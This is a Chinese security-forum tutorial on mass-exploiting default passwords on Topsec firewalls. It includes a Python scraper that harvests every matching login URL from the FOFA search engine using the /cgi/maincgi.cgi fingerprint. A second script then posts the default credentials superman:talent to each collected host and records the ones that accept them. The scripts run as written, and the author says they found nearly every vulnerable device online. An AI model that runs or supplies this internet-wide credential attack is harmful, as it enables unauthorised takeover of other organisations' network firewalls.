





# 教你如何快速拿下全网弱口令 - 先知社区

教你如何快速拿下全网弱口令

- - -

**前言：在一次测试中，偶遇了天融信的防火墙，弱口令测试未果，并且天融信的防火墙一般错误五次后会会锁定登录，所以也不能爆破弱口令，那么现实中这种系统还是很多的，本篇文章介绍一下利用 fofa 爬取全网相同系统服务器，然后批量检测默认用户名密码的脚本的编写，本篇就以天融信的防火墙弱口令为例。**

我们的思路是通过 fofa 搜索目标系统服务器独有特征，例如系统的一些独有页面，然后脚本爬取我们需要的链接收集起来，再利用脚本批量检测默认用户名密码即可。

（有了这个想法后百度了一下，已经有师傅写过 fofa 爬链接的脚本了，那就不造轮子了，拿来改一下吧，精简为主，代码也比较简单，师傅已经写的很好了，原文链接：[https://www.cnblogs.com/Cl0ud/p/12384457.html）](https://www.cnblogs.com/Cl0ud/p/12384457.html%EF%BC%89)

## 前期准备

一：登录会员 fofa 账号，不是 fofa 会员的话只能查看五页内容，想要爬取所有符合特征的链接，就需要会员了，普通会员就可以了，这个就需要自行解决啦！登录之后我们获取当前登录账户的 cookie 值以做后面爬取链接时使用。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210311104307-82d40616-8213-1.png)

二：找到目标防火墙的特征 url："/cgi/maincgi.cgi"，fofa 搜索一些就可以找到相同的目标系统了，此时链接可以删除 q 参数，只要 qbase64 参数也是一样的，[https://fofa.so/result?qbase64=Ii9jZ2kvbWFpbmNnaS5jZ2ki，我们需要的是qbase64参数：Ii9jZ2kvbWFpbmNnaS5jZ2ki](https://fofa.so/result?qbase64=Ii9jZ2kvbWFpbmNnaS5jZ2ki%EF%BC%8C%E6%88%91%E4%BB%AC%E9%9C%80%E8%A6%81%E7%9A%84%E6%98%AFqbase64%E5%8F%82%E6%95%B0%EF%BC%9AIi9jZ2kvbWFpbmNnaS5jZ2ki)

[](https://xzfile.aliyuncs.com/media/upload/picture/20210311104321-8b03a620-8213-1.png)

三：此时所有的链接都是天融信防火墙的后台登录页面了，可以看到有一个登录框，输入账号密码登录，我们输入默认的账号：密码→superman:talent，然后点击登录并抓包

[](https://xzfile.aliyuncs.com/media/upload/picture/20210311104332-91695a96-8213-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20210311104337-94af45b2-8213-1.png)

**前期工作已经准备好了，接下来就需要写脚本爬取需要测试的链接并且批量验证了，为了方便后期的更改，爬取和检测弱口令分成两个脚本。**

## 脚本部分（分为链接爬取和批量检测）

脚本所需环境为 python2

### **fofa 链接爬取脚本**

编码的问题真的很烦，各种报错，脚本输出都为英文，并且我们直接将需要用到的 cookie，和 qbase 参数直接编辑到代码中，各位用的时候自行代码修改就可以了~

```plain
import requests
from lxml import etree
import re
import time

cookie = "1"
qbase64 = "Ii9jZ2kvbWFpbmNnaS5jZ2ki"
def spider():
    header = {
        "Connection": "keep-alive",
        "Cookie": "_fofapro_ars_session=" + cookie,
    }
    print("spider website is :https://fofa.so/result?qbase64=" + qbase64)
    html = requests.get(url="https://fofa.so/result?qbase64=" + qbase64, headers=header).text
    pagenum = re.findall('>(\d*)</a> <a class="next_page" rel="next"', html)
    print("have page: " + pagenum[0])
    stop_page = raw_input("please input stop page: \n")
    doc = open("url.txt", "a+")
    for i in range(1, int(pagenum[0])):
        print("Now write " + str(i) + " page")
        pageurl = requests.get('https://fofa.so/result?page=' + str(i) + '&qbase64=' + qbase64, headers=header)
        tree = etree.HTML(pageurl.text)
        urllist = tree.xpath('/html/body/div[@id="result"]/div[@class="main-result clearfix padTop90"]/div[@class="result-right-list"]/div[@class="result-right-list-view"]/div[@class="right-list-view-item clearfix"]/div[@class="fl box-sizing"]/div[@class="re-domain"]/a[@target="_blank"]/@href')
        for j in urllist:
            doc.write(j + "\n")
        if i == int(stop_page):
            break
        time.sleep(10)
    doc.close()
    print("OK,Spider is End .")

def main():
    spider()

if __name__ == '__main__':
    main()
```

在前期准备中我们已经获取了 fofa 登录用户的 cookie，以及我们搜索的 qbase64 参数，修改上面代码中的 cookie 和 qbase64 的值，然后 python 脚本名.py，输入要停止的页码后，等待运行结束，结束后同目录下的 url.txt 文件中就是所收集的目标系统 url。运行截图如下。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210311104347-9a57ba26-8213-1.png)

### **批量检测脚本**

```plain
import requests
import time
payload = {
    "username":"superman",
    "passwd":"talent",
    "loginSubmitIpt":''
}
'''proxy='127.0.0.1:1080'
proxies={
    'http':'http://' + proxy,
    'https':'https://' + proxy
}'''
header={'Connection': 'close'}
f = open("url.txt", "r")
r = open("url_x.txt","w")
lines = f.readlines()
i=0
x=0
for line in lines:
    try:
        response = requests.post(line+"/cgi/maincgi.cgi?Url=Index",data = payload,headers = header,timeout=5,verify=False)
    except:
        continue
    else:
        i=i+1
        print(str(i))
        if "maincgi.cgi?Url=Main" in (response.text.replace(u'\xa9', u'')):
            r.write(line + "\n")
            x=x+1
            print(str(i)+"is being detected")
            print("A vulnerability link has been detected" + str(x))
f.close()
r.close()
```

如果不用 try 的话，有一个报错，如下图，百度了一下，网上的方法都没有解决，经过测试，部分链接会报异常，部分链接是没问题的，所以我们这里用 try 来忽略这些异常的请求，如果有师傅有解决方法的话，欢迎提出建议哦~

[](https://xzfile.aliyuncs.com/media/upload/picture/20210311104418-ad137592-8213-1.png)

脚本运行后，会读取 url.txt 的链接进行逐条检测默认口令，并输出正在检测第几条，在检测到弱口令系统后会输出已经检测出的数量。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210311104424-b0e0f334-8213-1.png)

检测出的弱口令系统链接也会输出出来，并且会将存在弱口令的系统链接保存在 url\_x.txt 中，如下图：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210311104433-b5ecdc94-8213-1.png)

脚本在经历了亿小会儿的运行之后，结果也出来了，那么基本全网的天融信的默认口令系统也都在这里了，如下图：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210311104439-b9a8bc2c-8213-1.png)

**思路呢就是这样的，批量爬取，批量检测，更多的利用方式我就不说啦，各位按照需求自行修改代码就可以啦，缺点还是有不少的，期待各位师傅们提出意见和建议~**
